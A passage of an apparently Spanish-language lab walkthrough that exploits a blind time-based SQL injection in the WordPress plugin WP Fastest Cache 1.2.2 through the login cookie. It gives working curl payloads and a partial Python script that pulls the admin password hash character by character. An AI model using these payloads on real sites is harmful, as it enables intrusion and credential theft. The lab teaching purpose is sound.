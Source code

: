 
Usaremos el payload que usa `sqlmap`, lo modificaremos para crear un script y hacer el proceso más manual y controlado por nosotros

En primera instancia, validaremos este payload haciendo una solicitud con `curl`

~~~ bash
curl -sLI http://norc.labs/wp-admin -H 'Cookie: wordpress_logged_in=" AND (SELECT 1 FROM (SELECT(SLEEP(5)))TempTable) AND "a"="a'
~~~

Si la query se interpreta correctamente, recibiremos la respuesta después de cinco segundos. Ahora podemos hacer una consulta a la tabla `wp_users` para extraer el valor del campo `user_pass`. Haremos uso de un condicional más una iteración con `SUBSTRING` en el valor que buscamos para poder evaluar una serie de caracteres

~~~ bash
curl -sLI http://norc.labs/wp-admin -H 'Cookie: wordpress_logged_in=" AND (SELECT (IF((BINARY SUBSTRING((SELECT user_pass FROM wp_users WHERE user_login="admin"),1,1)="a"),SLEEP(3), SLEEP(0))) FROM (SELECT 1)TempTable) AND "a"="a'
~~~

Si lo definimos en un script de `python` nos quedará un código parecido a este. A continuación os dejo el script para que puedan analizarlo

- URL del script

~~~ python
import requests
import time
import string
from pwn import log
import signal

delay = 5 # Recomendable no dejar en menos de 2
chars = string.ascii_lowercase + string.ascii_uppercase + string.digits + string.punctuation  # Caracteres imprimibles

"""
    Trap CTRL + C
"""
def def_handler(sig, frame):
    print("[!] Exiting...")
    sys.exit(1)

signal.signal(signal.SIGINT, def_handler)

"""
	Extraer la contraseña en formato hash
"""
def dump_pass(url):
    hash_value= ""
    bar = log.progress("Blind SQLi - WP Fastest Cache 1.2.2")
    bar2 = log.progress(f"Extracting data from {url}...")
    try:
        for position in range(1,35):
            for char in chars:
                bar.status("Probando " + char) 
                start_time = time.time()

                payload = f'" AND (SELECT (IF((BINARY SUBSTRING((SELECT user_pass FROM wp_users WHERE user_login="admin"),{position},1)="{char}"),SLEEP({delay}), SLEEP(0))) FROM (SELECT 1)TempTable) AND "a"="a'

                cookies = {"wordpress_logged_in": payload}

                response = requests.get(url, cookies=cookies)
                end_time = time.time()
~~~